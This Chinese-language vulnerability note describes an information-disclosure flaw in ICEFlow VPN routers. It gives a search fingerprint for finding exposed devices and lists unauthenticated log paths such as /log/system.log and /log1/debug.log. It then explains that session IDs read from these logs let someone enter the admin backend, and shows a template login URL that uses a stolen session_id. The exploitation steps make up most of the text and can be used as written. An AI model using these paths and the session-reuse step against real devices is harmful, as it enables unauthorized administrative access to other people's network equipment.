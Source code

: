 # 

# ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

```
ICEFlow VPN
```

## 网络测绘

```
title="ICEFLOW VPN Router"
```

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](./images/202202101850471.png)



根据日志信息获得session后，可利用实时登录系统管理后台：



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```


